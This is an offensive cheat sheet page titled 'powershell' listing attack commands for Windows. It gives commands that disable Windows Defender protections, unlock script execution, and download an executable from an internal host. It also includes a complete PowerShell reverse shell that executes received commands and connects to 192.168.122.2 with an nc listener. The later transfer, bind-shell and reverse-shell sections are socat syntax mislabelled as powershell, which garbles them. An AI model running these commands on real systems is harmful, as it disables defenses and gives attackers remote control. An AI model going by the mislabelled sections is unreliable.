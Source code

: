 ```yaml
---
title: "powershell"
linkTitle: "powershell"
date: 2017-01-05
---
```


## Windows Defener

### Disable

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

```poweshell
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true -DisableScriptScanning $true -EnableControlledFolderAccess Disabled -EnableNetworkProtection AuditMode -Force -MAPSReporting Disabled -SubmitSamplesConsent NeverSend
```

### Execution policy

PowerShell maintains an execution policy that determines which type of PowerShell scripts (if any) can be run on the system. The default policy is "Restricted", which effectively means the system will neither load PowerShell configuration files nor run PowerShell scripts.

```powershell
PS C:\Windows\system32> Get-ExecutionPolicy
Restricted
PS C:\Windows\system32> Set-ExecutionPolicy Unrestricted -Force
PS C:\Windows\system32> Get-ExecutionPolicy
Unrestricted
```

### Download a file

```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.122.20/wget.exe','C:\Users\aaa\Desktop\wget.exe')"
```


### Bind shell



### Reverse shell

Alice -> Bob -> Alice

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.122.2',1234);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
$client.Close();
```

* iex = Invoke-Expression

Alice:

```bash
nc -lnvp 1234
```

Bob:

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.122.2',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```




### Transfer

Alice -> Bob

Alice:

```bash
powershell TCP4-LISTEN:443,fork file:journald.log
```

* fork: After establishing a connection, handles its channel in a child process
and keeps the parent process attempting to produce more connections.

Bob:

```bash
powershell -d -d TCP4:192.168.1.1:443 file:journald.log,create
```


### Encrypted bind shell

Alice -> Bob

Alice:

```bash
$ openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
$ cat bind_shell.key bind_shell.crt > bind_shell.pem
$ powershell OPENSSL-LISTEN:192.168.1.1:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

Bob:

```bash
powershell - OPENSSL:192.168.1.1:443,verify=0
```

### Reverse shell

`Alice <- Bob`

Alice:

```bash
powershell TCP4:192.168.1.1:1234 EXEC:/bin/bash
```

Bob:

```bash
powershell - TCP4-LISTEN:1234 STDOUT
```
